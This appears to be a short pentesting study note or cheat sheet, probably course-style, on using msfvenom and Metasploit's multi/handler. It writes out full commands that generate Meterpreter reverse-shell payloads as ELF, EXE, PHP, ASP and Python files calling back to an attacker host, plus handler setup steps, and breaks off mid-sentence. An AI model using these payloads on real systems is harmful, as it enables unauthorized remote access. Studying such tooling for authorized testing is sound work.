 
Msfvenom will allow you to access all payloads available in the  Metasploit framework. Msfvenom allows you to create payloads in many different formats (PHP, exe, dll, elf, etc.) and for many different target systems (Apple, Windows, Android, Linux, etc.).

You can either generate stand-alone payloads (e.g. a Windows executable for Meterpreter) or get a usable raw format (e.g. python). The`msfvenom --list formats` command can be used to list supported output formats.

# Useful Commands:

The following is an example to generate a raw PHP payload Base64 encoded: 

```msfconsole
msfvenom -p php/meterpreter/reverse_tcp LHOST=<ip address> -f raw -e php/base64
```

 **Note:** The syntax should be in this format `msfvenom -p <PAYLOAD> <OPTIONS>`, and the naming convention for the payload should be like this `<OS>/<arch>/<payload>`.

 **Note:** The output PHP file will miss the starting PHP tag commented and the end tag (`?>`) which must be **edited**

`exploit/multi/handler` module is like socat and netcat, used to receive reverse shells, It's also the only way to interact with a meterpreter shell, and is the easiest way to handle staged payloads, use the following Metasploit command to use the module:

```msfconsole
use exploit/multi/handler
```

Then use `show options` command to show the values must be set so everything work properly, In this case:

- `set payload <payload>`
- `set LHOST <local ip address> `
- `set LPORT <local port>` 

Finally hit `run` to start the attack.

# Extra: Payloads

msfvenom can be used to create payloads in almost all formats. Below are a few examples we will often use:

Linux Executable and Linkable Format (elf)  
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`  
The .elf format is comparable to the .exe format in Windows. These are executable files for Linux. However, you may still need to make sure they have executable permissions on the target machine. For example, once you have the shell.elf file on your target machine, use the chmod +x shell.elf command to accord executable permissions. Once done, you can run this file by typing ./shell.elf on the target machine command line.

Windows  
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`  
  
PHP  
`msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`  
  
ASP  
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp`  
  
Python  
`msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`

# Extra

Aside from the `msfconsole` man page, the other important thing to note when working with msfvenom is:  

`msfvenom --list payloads`  

This can be used to list all available payloads, which can then be piped into `grep` to search for a specific set of payloads. For example: